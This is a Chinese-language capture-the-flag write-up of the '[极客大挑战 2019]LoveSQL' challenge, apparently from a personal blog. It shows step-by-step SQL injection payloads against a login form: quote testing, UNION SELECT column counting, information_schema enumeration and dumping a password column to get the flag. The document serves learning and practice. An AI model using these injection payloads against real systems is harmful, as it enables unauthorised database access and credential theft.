 ```yaml
---
title: [极客大挑战 2019]LoveSQL
date: 2020-05-10 08:47:44
tags: Web
---
```


# **[极客大挑战 2019]LoveSQL**

用户登录界面

> 尝试使用万能密码 
>
> ```
> admin/1'or'1'='1
> ```

不对 看下wp

先测试单引号' 观察是否有报错信息

这里我就可以知道为 **字符型注入**

如果是**整形** 报错信息为“12’”

所以我们要使用到闭合语句来完成

字符型和数字型最大的一个区别在于，数字型<u>不需要单引号来闭合</u>，而字符串<u>一般需要通过单引号来闭合的</u>。	

这里使用 **%23** 来闭合

> 不知道这里为什么 <u>#</u>  *--+* 不行。//好像是再url当中 不能使用符号

payload：

> ?username=1&password=12' %23  

没有报错有回显 NO 

尝试联合注入

> ?username=1&password=12' union select 1%23

回显

> The used sELECT statements have a different number of columns  

提示了我们后面有更多的列数

添加更多的列

> ?username=1&password=12' union select 1,2,3%23



查询当前数据库名字

> ?username=1&password=12' union select 1,database(),3%23

发现库名geek

在2字段使用group_concat()无效

查询一下3字段

> ?username=1&password=12' union select 1, 2, group_concat(table_name)from information_schema.tables where table_schema='geek' %23  



看到<u>geek</u>里面有两个表 再查列

> ?username=1&password=12' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='geek' %23  



> ?username=1&password=12' union select 1, 2,
> group_concat(password) from lovelysq1 %23  

得到flag

知识点:

**字符型注入**

字符型和数字型最大的一个区别在于，数字型不需要单引号来闭合，而字符串一般需要通过单引号来闭合的。

